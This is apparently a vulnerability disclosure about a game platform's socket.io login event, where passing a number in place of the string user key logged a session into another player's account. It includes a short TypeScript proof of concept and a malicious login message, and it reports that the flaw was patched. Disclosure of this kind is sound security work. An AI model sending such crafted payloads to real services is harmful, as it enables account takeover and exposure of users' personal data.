

## Introduction

ZR's matchmaking/social platform, MasonService, uses [**socket.io**](https://socket.io/) framework as its communication protocol, where messages are structured roughly like so:

```
Message type    Parameters → ...
↓               ↓
42["eventName", "some param", 6767, {}, (...)]
   ↑
   Event type
```

Parameters can be of any JSON data type. So far, this is obviously all fine. The vulnerability within this design lied in the way Socket.io's decoder handled events. For a long time, the framework ran no type checks on messages' parameters, meaning you could pass in anything anywhere.

## Exploitation

On August 10th 2025 an exploit utilizing this vulnerability was discovered by **Creaffy**. It allowed an attacker to log into any account. The screenshot below shows a `loggedIn` response to a crafted `login` request, which logged us into Sneeza's (one of the game's developers) account. I redacted possibly sensitive information.



While this exploit was definitely a privacy risk for the playerbase (personal information like full names and emails could have been leaked), it did not expose the user keys, meaning the attacker could not actually join a game on a "stolen" account.
Only actions possible via the MasonService could have been taken on the account.

### Proof of concept

Normally, the `login` event message should have a `userKey` parameter of the `string` type. In this snippet, however, a number was passed instead. This resulted in the n-th entry in the user keys table to be selected, logging the session in as the user under that index.

```ts
import { MasonService } from "zombslib";

const n = 0;
const mason = new MasonService();
mason.once("socketIoSessionData", () => {
    mason.send(`42["login", ${n}]`);
});
mason.on("loggedIn", (u: ApiUser) => {
    console.log(u);
});
```

```diff
+ Legitimate: 42["login", "deadbeefdeadbeefdeadbeefdeadbeefdeadbeefdeadbeef"]
- Malicious:  42["login", 0]
```

## Patch

The login exploit stopped working within an hour of its discovery. I had not yet reported it by that time so I'm not entirely sure how Jeremiah found out about it but I guess it's a good thing that he reacted so quickly. The general type checker (or rather the lack of it) vulnerability remained active for some time but has since been fully fixed.

## CVE

I am unsure whether this vulnerability actually falls under this CVE, but they do seem to work similarly. <br/>
[**CVE-2022-2421**](https://csirt.divd.nl/cves/CVE-2022-2421/)
